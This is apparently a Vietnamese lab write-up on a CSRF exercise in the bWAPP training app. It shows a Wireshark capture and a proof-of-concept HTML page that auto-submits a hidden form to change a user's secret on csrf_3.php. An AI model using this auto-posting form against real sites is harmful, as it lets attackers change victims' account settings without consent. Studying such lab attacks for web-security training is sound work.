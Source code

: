 Capture quá trình đổi secret bằng Wireshark:

![image](https://github.com/NVex0/Cong_nghe_web_an_toan/assets/113530029/1881ed42-a7e7-4d77-bdbc-0af90b563bc1)

Ta thấy web nhận info bằng POST method, tạo html phishing sau để auto POST và submit:

```
<html>
<body>
<script>history.pushState('', '', '/')</script>
<form id="autosubmit" action="http://localhost/bwapp/csrf_3.php" enctype="text/plain" method="POST">
 <input name="secret" type="hidden" value="KCSCHackedSecret" />
 <input name="login" type="hidden" value="zed" />
 <input name="action" type="hidden" value="change" />
 <input type="submit" value="Submit Request" />
</form>
</body>
</html>
```

